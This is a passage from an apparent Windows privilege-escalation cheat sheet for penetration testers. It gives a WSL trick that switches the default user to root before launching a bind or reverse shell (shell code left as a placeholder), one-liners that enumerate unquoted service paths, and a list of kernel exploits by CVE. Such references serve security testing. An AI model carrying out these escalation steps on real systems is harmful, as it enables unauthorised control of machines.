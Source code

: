 Technique borrowed from [Warlockobama's tweet](https://twitter.com/Warlockobama/status/1067890915753132032)

> With root privileges Windows  Subsystem for Linux (WSL)  allows users to create a bind shell on any port (no elevation needed). Don't know the root password? No problem just set the default user to root W/ <distro>.exe --default-user root. Now start your bind shell or reverse.

```powershell
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

## Unquoted Service Paths

The Microsoft Windows Unquoted Service Path Enumeration Vulnerability. All Windows services have a Path to its executable. If that path is unquoted and contains whitespace or other separators, then the service will attempt to access a resource in the parent path first.

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:windows\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

## Kernel Exploit

List of exploits kernel : [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

##### #Security Bulletin&nbsp;&nbsp;&nbsp;#KB &nbsp;&nbsp;&nbsp;&nbsp;#Description&nbsp;&nbsp;&nbsp;&nbsp;#Operating System  
- [MS17-017](./MS17-017) 　[KB4013081]　　[GDI Palette Objects Local Privilege Escalation]　　(windows 7/8)
- [CVE-2017-8464](./CVE-2017-8464) 　[LNK Remote Code Execution Vulnerability]　　(windows 10/8.1/7/2016/2010/2008)
- [CVE-2017-0213](./CVE-2017-0213) 　[Windows COM Elevation of Privilege Vulnerability]　　(windows 10/8.1/7/2016/2010/2008)
- [CVE-2018-0833](./CVE-2018-0833)   [SMBv3 Null Pointer Dereference Denial of Service]    (Windows 8.1/Server 2012 R2)
- [CVE-2018-8120](./CVE-2018-8120)   [Win32k Elevation of Privilege Vulnerability]    (Windows 7 SP1/2008 SP2,2008 R2 SP1)
- [MS17-010](./MS17-010) 　[KB4013389]　　[Windows Kernel Mode Drivers]　　(windows 7/2008/2003/XP)
- [MS16-135](./MS16-135) 　[KB3199135]　　[Windows Kernel Mode Drivers]　　(2016)
- [MS16-111](./MS16-111) 　[KB3186973]　　[kernel api]　　(Windows 10 10586 (32/64)/8.1)
- [MS16-098](./MS16-098) 　[KB3178466]　　[Kernel Driver]　　(Win 8.1)
- [MS16-075](./MS16-075) 　[KB3164038]　　[Hot Potato]　　(2003/2008/7/8/2012)
- [MS16-034](./MS16-034) 　[KB3143145]　　[Kernel Driver]　　(2008/7/8/10/2012)
- [MS16-032](./MS16-032) 　[KB3143141]　　[Secondary Logon Handle]　　(2008/7/8/10/2012)
- [MS16-016](./MS16-016) 　[KB3136041]　　[WebDAV]　　(2008/Vista/7)
- [MS16-014](./MS16-014) 　[K3134228]　　[remote code execution]　　(2008/Vista/7)    
...
- [MS03-026](./MS03-026) 　[KB823980]　　 [Buffer Overrun In RPC Interface]　　(/NT/2000/XP/2003)  
